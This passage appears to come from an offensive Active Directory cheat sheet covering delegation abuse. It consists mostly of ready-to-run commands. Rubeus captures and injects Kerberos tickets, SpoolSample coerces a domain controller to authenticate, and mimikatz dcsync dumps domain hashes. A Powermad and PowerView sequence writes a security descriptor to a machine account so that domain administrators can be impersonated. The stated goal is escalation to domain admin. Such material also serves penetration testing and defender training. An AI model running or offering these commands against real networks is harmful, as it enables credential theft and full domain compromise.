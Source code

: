 ```

Invoke-Command -ComputerName <target_computer> -Credential $Credential -ScriptBlock { whoami }
```

#### Delegation

##### Unconstrained Delegation
When we have admin rights on a machine with the `TrustedForDelegation` attribute we can abuse it in order elevate our privileges to domain admin.
Note: it can be used to compromise another forest if the 2 forests have bidirectional relations and `TGTDelegation` set to True (this can be checked with PowerShell Active Directory module and the command `Get-ADTrust -Filter *|fl`).
Goal: make a privileged user connect to our compromise machine.
```
# Monitoring incomings TGTs with rubeus:
.\rubeus.exe monitor /interval:2 /filteruser:DC01$

# Execute the printerbug to trigger the force authentication of the target DC to our machine (DC01 is compromised)
.\spoolsample.exe DC02.DOMAIN2.FQDN DC01.DOMAIN.FQDN

# Get the base64 captured TGT from Rubeus and inject it into memory:
.\rubeus.exe ptt /ticket:<base64_of_captured_ticket>

# Dump the hashes of the target domain using mimikatz:
.\mimikatz.exe "lsadump::dcsync /domain:DOMAIN2.FQDNM /user:DOMAIN2\Administrator" exit
```

##### Constrained Delegation
When a user owns the `msDS-AllowedToDelegateTo` attribute, we can abuse constrained delegation for the mentioned service and adding alternate services we takeover the object.
```
.\rubeus.exe s4u /user:<target_user> /rc4:<rc4_hash> /impersonateuser:<target_user(Administrator)> /msdsspn:cifs/<target_machine.DOMAIN.FQDN> /altservice:ldap,http,wsman,host,winrm,krbtgt,cifs /ptt

# We can get command execution with Invoke-Command for example
$sess = New-PSSession -computername target_machine.DOMAIN.FQDN
Invoke-Command -session $sess -ScriptBlock {whoami}
```

##### Resource-Based Constrained Delegation
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate a Domain Administrator.
```
# Use Powermad to create a new machine account
New-MachineAccount -MachineAccount <created_machine> -Password $(ConvertTo-SecureString '<machine_password>' -AsPlainText -Force) -Verbose

# Use PowerView and get the SID value of our new machine
$ComputerSid = Get-DomainComputer <created_machine> -Properties objectsid | Select -Expand objectsid

# Then by using the SID we have to build a ACE for the new created machine account
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over
Get-DomainComputer <target_machine> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

```